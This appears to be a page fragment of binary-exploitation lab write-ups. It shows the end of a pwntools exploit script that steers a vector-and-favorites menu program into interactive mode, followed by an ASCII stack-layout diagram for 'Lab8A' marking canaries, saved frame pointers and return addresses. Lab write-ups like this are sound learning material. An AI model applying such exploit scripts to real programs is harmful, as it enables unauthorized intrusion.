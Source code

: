 ```python
    p.sendline("1")
    p.sendline("2") # v2
    p.sendline(data2)
    p.sendline("2") # sum
    p.sendline("4") # save sum to favos
    i = i + 1


p.sendline("6") # load favo
p.sendline("4") # load favos[4] to
p.sendline("1") # v1
p.sendline("3") # print vector
p.sendline("1")
p.interactive()
```

>**Lab8A**  

```bash
+===============+ high
|     envp      |
+---------------+
|     argv      |
+---------------+
|     argc      |
+---------------+
|      ret      |
+---------------+
|      ebp      |<- ebp_main|esp+28
+---------------+
|    gs:0x14    |<- canary
+---------------+
\               \
/               /
+---------------+
|               |<- esp
+---------------+                       +---------------+
|      ret      |                       |      ret      |
+---------------+                       +---------------+
|    ebp_main   |<- ebp_sAB|esp_sAB+524 |    ebp_main   |<- ebp_fSW|esp_fSW+40
+---------------+                       +---------------+
|    gs:0x14    |<- canary              |    gs:0x14    |<- canary|global_addr
+---------------+                       +---------------+
\               \                       \               \
/               /                       /               /
+---------------+                       +---------------+
|               |<- esp_sAB+8|buf_secure|               |<- esp_fSW+12|buf
+---------------+                       +---------------+
|               |                       |               |
+---------------+                       +---------------+
|               |<- esp_sAB             |               |
+---------------+                       +---------------+
|      ret      |                       |               |<- esp_fSW
+---------------+                       +---------------+
|    ebp_sAB    |<- ebp_sAB_1
+---------------+
|    gs:0x14    |
+---------------+
\               \
/               /
+---------------+
```
